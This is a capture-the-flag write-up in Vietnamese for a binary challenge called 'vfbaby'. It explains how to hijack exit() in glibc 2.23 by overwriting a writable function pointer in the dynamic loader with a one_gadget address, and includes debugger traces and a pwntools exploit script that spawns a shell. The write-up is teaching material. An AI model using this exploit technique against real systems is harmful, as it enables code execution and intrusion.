 ![image](https://github.com/antkss/training_task/assets/88892713/e2666030-8083-4a99-a197-acc3210d6550)# write up vfbaby 
- khi mở chương trình lên, chương trình cho phép em có thể có được địa chỉ của libc
```shell
as@vfbaby🍎 ls
flag  howtoror17.txt  ld-2.23.so  libc-2.23.so  libc.so.6  ptr_guard.py  solve.py  vfbaby  vfbaby.i64  vfbaby.md  vfbaby.py  vfbaby_patched  vfbaby_patched-origin  vfbaby_patched-origin.i64  vfbaby_patched.i64
as@vfbaby🍎 ./vfbaby         
here is a gift 0x767a58e553a0, good luck ;)
```
-  Bài tập trung vào lỗi của exit vì bài có arbitrary read, nhìn vào hàm dường như không thấy gì ngoài việc ta có thể ghi dữ liệu vào 1 địa chỉ nào đó thông qua read vì thế em có thể dùng read để ghi 1 cái gì đó vào vùng ghi được của libc

```assembly
  0x7c0c1f3c0000     0x7c0c1f3c4000 r--p     4000 1c0000 /home/as/pwnable/vfbaby/libc-2.23.so
    0x7c0c1f3c4000     0x7c0c1f3c6000 rw-p     2000 1c4000 /home/as/pwnable/vfbaby/libc-2.23.so
    ```
khi debug và đi sâu xuống hàm exit(), em bắt gặp nó call cái địa chỉ này, đây chính là nó đang call hàm __run_exit_handlers
```assembly
 ► 0x5d00caa00780 <exit@plt>     jmp    qword ptr [rip + 0x20085a]    <exit>
    ↓
   0x7c0c1f03a030 <exit>         lea    rsi, [rip + 0x38a5c1]
   0x7c0c1f03a037 <exit+7>       sub    rsp, 8
   0x7c0c1f03a03b <exit+11>      mov    edx, 1
   0x7c0c1f03a040 <exit+16>      call   0x7c0c1f039f10                <0x7c0c1f039f10>
 
   0x7c0c1f03a045                nop    word ptr cs:[rax + rax]
   0x7c0c1f03a04f                nop    
   0x7c0c1f03a050 <on_exit>      push   rbp
   0x7c0c1f03a051 <on_exit+1>    push   rbx
   0x7c0c1f03a052 <on_exit+2>    mov    rbx, rdi
   0x7c0c1f03a055 <on_exit+5>    lea    rdi, [rip + 0x38a59c]
   ```


```C
void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true, true);
}
```

- tiếp tục đi sâu vào hàm đó thì em thấy nó call 1 hàm khác là rdx, và khi nó mov giá trị từ địa chỉ $rax-0x18 thì nó xor với 1 giá trị khác ở vùng fs:0x30 để có được 1 địa chỉ libc có thể thực thi, cả 2 vùng đều có thể ghi được nhưng có 1 vấn đề là các giá trị này random nên em không thể ghi vào đó để khai thác,  hiện tại em chỉ sở hữu libc nên em phải tìm 1 chỗ khác tương tự

 
```assembly
  0x7c0c1f039fde    add    rax, r13
   0x7c0c1f039fe1    mov    rdx, qword ptr [rax + 0x18]
   0x7c0c1f039fe5    mov    rdi, qword ptr [rax + 0x20]
   0x7c0c1f039fe9    ror    rdx, 0x11
   0x7c0c1f039fed    xor    rdx, qword ptr fs:[0x30]
 ► 0x7c0c1f039ff6    call   rdx                           <0x7c0c1f410ab0>
 
   0x7c0c1f039ff8    jmp    0x7c0c1f039f30                <0x7c0c1f039f30>
 
   0x7c0c1f039ffd    nop    dword ptr [rax]
   0x7c0c1f03a000    shl    rax, 5
   0x7c0c1f03a004    mov    rax, qword ptr [r13 + rax + 0x18]
   0x7c0c1f03a009    ror    rax, 0x11

  ```
- khi đi sâu vào hàm mà đc call từ rdx, ta sẽ thấy có 1 vị trí call khác là  ``` call   qword ptr [rip + 0x216414]   ```
```assembly
  0x75aba1e10ae0    lea    rax, [rax + rax*8]
   0x75aba1e10ae4    lea    rcx, [rip + 0x215555]         <_rtld_global>
   0x75aba1e10aeb    shl    rax, 4
   0x75aba1e10aef    lea    r12, [rcx + rax - 0x88]
   0x75aba1e10af7    jmp    0x75aba1e10b27                <0x75aba1e10b27>
    ↓
 ► 0x75aba1e10b27    lea    rdi, [rip + 0x215e1a]         <_rtld_global+2312>
   0x75aba1e10b2e    call   qword ptr [rip + 0x216414]    <0x75aba1e00c90>
 
   0x75aba1e10b34    mov    ecx, dword ptr [r12]
   0x75aba1e10b38    test   ecx, ecx
   0x75aba1e10b3a    je     0x75aba1e10b00                <0x75aba1e10b00>
 
   0x75aba1e10b3c    mov    rax, qword ptr [r12 - 8]
```
- lệnh call đó có nghĩa là nó sẽ call giá trị chứa trong địa chỉ $rip+0x216414 với $rip được tính theo câu lệnh trước đó ở đây $rip =    0x75aba1e10b34
- khi check thì địa chỉ tại đây có quyền đọc ghi nên em có thể dùng để khai thác
```assembly
pwndbg> vm 0x75aba1e10b34+0x216414
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x75aba2025000     0x75aba2026000 r--p     1000  25000 /home/as/pwnable/vfbaby/ld-2.23.so
►   0x75aba2026000     0x75aba2027000 rw-p     1000  26000 /home/as/pwnable/vfbaby/ld-2.23.so +0xf48
    0x75aba2027000     0x75aba2028000 rw-p     1000      0 [anon_75aba2027]
```
- sau khi xong thì em có thể dùng onegadget và ghi 3 byte đầu vào thông qua arbitrary read

```python
p.recvuntil(b'a gift ')
input()
addr = p.recvuntil(b',', drop=True)
leak_addr = int(addr, 16)
base_libc = leak_addr - 0xcc230
one_gadget = base_libc + 0xf02a4
write_addr = base_libc+0x626f48

part1_onegadget = one_gadget & 0xff
part2_onegadget = (one_gadget >> 8) & 0xff
part3_onegadget = (one_gadget >> 16) & 0xff


xor2 = leak_addr+ 0x2f9a28 
xor1 = leak_addr 
push_rbp_ld = leak_addr + 3426432

p.sendafter(b'good luck ;)',p64(write_addr))
input()
p.send(p64(part1_onegadget))
input()
p.send(p64(write_addr + 1))
input()
p.send(p64(part2_onegadget))
input()
p.send(p64(write_addr + 2))
input()
p.send(p64(part3_onegadget))
input()
```

- sau khi chạy code thì shell vẫn được thực thi nhưng stdout bị đóng nên cần phải nhập ```bash exec 1>&- ``` để mở lại stdout
- test thử khả năng run ở local
```bash
as@vfbaby🍎 ls
2               libc-2.23.so  vfbaby          vfbaby_patched-origin      vfbaby_patched-origin.id2
flag            libc.so.6     vfbaby.i64      vfbaby_patched-origin.i64  vfbaby_patched-origin.nam
howtoror17.txt  ptr_guard.py  vfbaby.py       vfbaby_patched-origin.id0  vfbaby_patched-origin.til
ld-2.23.so      solve.py      vfbaby_patched  vfbaby_patched-origin.id1  vfbaby_patched.i64
```
```bash
  $ cat flag > lmao
[DEBUG] Sent 0x10 bytes:
    b'cat flag > lmao\n'
```
```bash
as@vfbaby🍎 ls
2               libc.so.6     vfbaby.i64                 vfbaby_patched-origin.id0  vfbaby_patched.i64
flag            lmao          vfbaby.py                  vfbaby_patched-origin.id1
howtoror17.txt  ptr_guard.py  vfbaby_patched             vfbaby_patched-origin.id2
ld-2.23.so      solve.py      vfbaby_patched-origin      vfbaby_patched-origin.nam
libc-2.23.so    vfbaby        vfbaby_patched-origin.i64  vfbaby_patched-origin.til
```
